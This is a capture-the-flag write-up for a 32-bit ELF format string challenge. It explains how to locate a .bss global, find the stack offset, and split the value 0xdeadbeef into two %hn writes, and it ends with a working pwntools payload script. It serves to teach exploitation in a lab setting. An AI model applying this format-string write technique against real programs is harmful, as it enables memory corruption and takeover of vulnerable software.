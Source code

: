 ![description](fms2.PNG)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- like the Format String 1 challenge, this challenge prints the flag only if the target_variable value = 0xdeadbeef
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
- write 0xdeadbeef in target_value
## Finding the address of target_variable
target_variable is a global variable, and since it's not initialized , it's in the .bss section.
the address is : 0x0804c034 (same address as the previous challenge)
## Finding Offset
the address is the 4th address in the stack, to reference directly the address, we can use %4$x ( same offset from the previous challenge )

## Writing 0xdeadbeef
the format specifier %n writes how many bytes written so far, so if we want to overwrite the target with 100, we write target_address + "A"*(100-4)
the 4 bytes in ("A"*(100-4)) represents the size of the target_variable since it's counted in the payload.
the problem is that 0xdeadbeef is a very big number, so we can use %hn that write only 2 bytes in the address.
the idea is to write the (address of target) + (address of target + 2 ) + "n bytes" +  %4$hn + "m bytes" +5$hn
%4$hn will write n bytes in the lower two bytes of the target
%5$hn will write m bytes in the higher two bytes of the target
Now, how to calculate n and m ?
we want to write 0xbeef in the lower bytes, so n = 0xbeef - (4 + 4) = 48871
we want to write 0xdead in the higher bytes, so m = 0xdead - 0xbeef = 8126
again we have another problem, the buffer size is limited to 60 bytes, so we can't write 48871 bytes as an input !!!!
that's where we use the %x format specifier, %px can be used to write p byte (padding)
so our final payload = @target + (@target+2) + %48871x" + "%4$hn" + "%8126x" + "%5$hn"
## Payload
```python
from pwn import *
context.arch = 'i386'
target_variable = 0x0804c034
p = process("./task9")
payload = b""
payload += p32(target_variable)
payload += p32(target_variable+2)
payload += b"%48871x"
payload += b"%4$hn"
payload += b"%8126x"
payload += b"%5$hn" 
pause()
p.sendline(payload)
p.interactive()
